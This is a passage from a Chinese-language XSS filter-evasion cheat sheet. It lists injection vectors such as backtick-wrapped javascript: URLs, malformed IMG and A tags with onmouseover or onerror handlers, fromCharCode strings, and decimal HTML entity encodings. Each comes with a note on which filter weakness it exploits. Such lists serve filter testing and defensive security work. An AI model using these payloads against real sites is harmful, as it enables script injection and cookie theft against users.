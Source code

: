 ### 重音符混淆
如果你的javascript代码中需要同时使用单引号和双引号，那么可以使用重音符（`）来包裹javascript代码。它也经常会非常有用因为xss过滤代码未考虑到这个字符。

`<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>`
### 畸形的A标签

跳过href属性，而直接获取xss实质攻击代码

`<a onmouseover="alert(document.cookie)">xxs link</a>`
此外，chrome浏览器喜欢去补全缺失的引号。如果你遇到阻碍那么直接省略它们吧，chrome将会正确的帮你补全缺失的引号在URL和script中。

`<a onmouseover=alert(document.cookie)>xxs link</a>`
### 畸形的IMG标签

这个xss向量依靠松散的渲染引擎解析IMG标签中被引号包含的字符串来实现。我猜测它最初是为了正确编码而这样实现，但这样让它更加困难去解析html。

`<IMG """><SCRIPT>alert("XSS")</SCRIPT>">`
### fromCharCode
 如果没有任何形式的引号被允许，你可以eval()一串fromCharCode在javascript中来创建任何你需要的xss向量。

`<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>`
### 巧用src属性去绕过SRC域名检测过滤器

使用onXX事件绕过src检查：
`<IMG SRC=# onmouseover="alert('xxs')">`

通过省略它的值绕过检查：
`<IMG SRC= onmouseover="alert('xxs')">`

通过完全不设置它绕过检查：
`<IMG onmouseover="alert('xxs')">`


通过error事件触发alert：
`<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>`

### 十进制html编码引用
使用javascript指令的xss示例将无法工作在 Firefox 或 Netscape 8.1+，因为它们使用了 Gecko 渲染引擎。使用 XSS Calculator 获取更多信息。

`<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>`
#### 结尾没有分号的十进制html编码引用
它是经常有用的在绕过寻找”&#XX;”格式的xss过滤，因为大多数人不知道最多允许7位字符的编码限制。这也是有用的对那些对字符串解码像`$tmp_string =~ s/.&#(\d+);./$1/;` 的过滤器,它们错误的认为一个html编码必须要用;去结束。

`<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>`
#### 结尾没有分号的十六进制html编码引用
这也是一种实用的xss攻击针对上文的`$tmp_string =~ s/.&#(\d+);./$1/; `，错误的认为数字编码跟随在#后面（十六进制htnl编码并非如此）。使用 XSS Calculator 获取更多信息。
